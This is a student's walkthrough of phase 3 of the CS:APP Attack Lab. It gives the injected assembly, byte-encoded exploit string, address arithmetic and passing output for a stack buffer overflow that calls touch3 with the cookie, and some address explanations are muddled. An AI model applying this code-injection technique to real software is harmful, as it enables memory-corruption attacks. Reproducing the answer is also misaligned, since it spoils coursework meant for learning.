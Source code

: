 Phase 3 is kinda similar to phase to except that we are trying to call the function touch3 and have to pass our cookie to it as string

In the instruction it tells you that if you store the cookie in the buffer allocated for getbuf, the functions hexmatch and strncmp
may overwrite it as they will be pushing data on to the stack, so you have to be careful where you store it.

We will be storing it before the return address of getbuff (24 bytes)

The return address of getbuf is %rsp + buffer, the buffer was 24 bytes so it will be %rsp + 24

we know, `%rsp = 0x55623840`

Thus, return address = `0x55623840 + 0x18  = 0x55623858`

Your cookie address = `0x55623840 - 0x18` = `0x55623828`

If you look in the disassembled file, you can find the address of touch3

Mine is at `0x00401860`

Now you need this assembly code, same steps generating the byte representation

```
    movq $0x55623858,%rdi /* %rsp + 0x18 */
    pushq $0x00401860      /* touch3 address */   
    retq
```

The byte representation is as follows:
```
Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 58 38 62 55 	mov    $0x55623858,%rdi
   7:	68 60 18 40 00       	pushq  $0x401860
   c:	c3                   	retq   
```

Now, grab the bytes from the above code and start constructing your exploit string.
```
48 c7 c7 58 38 62 55 68
60 18 40 00 c3 00 00 00 /* mov return address of getbuf to rdi register and push address of touch3 to the stack */
00 00 00 00 00 00 00 00 /* padding */
28 38 62 55 00 00 00 00 /* return address of rsp-0x18, where the string will be stored*/
34 33 34 62 34 62 37 30 /* cookie string*/
```
If you look at the last row above, the cookie isn't in hex format, so you need to take your cookie and convert in to string format.
Go to http://www.unit-conversion.info/texttools/hexadecimal/ and put in your cookie and it should give you the text format or you could look up ascii equivalent on your machine


Last step is to generate the raw eploit string using the hex2raw program.

`./hex2raw < phase3.txt > raw-phase3.txt`

Finally, you run the raw file

`./ctarget < raw-phase3.txt`

Response looks like below

```
Cookie: 0x434b4b70
Type string:Touch3!: You called touch3("434b4b70")
Valid solution for level 3 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```
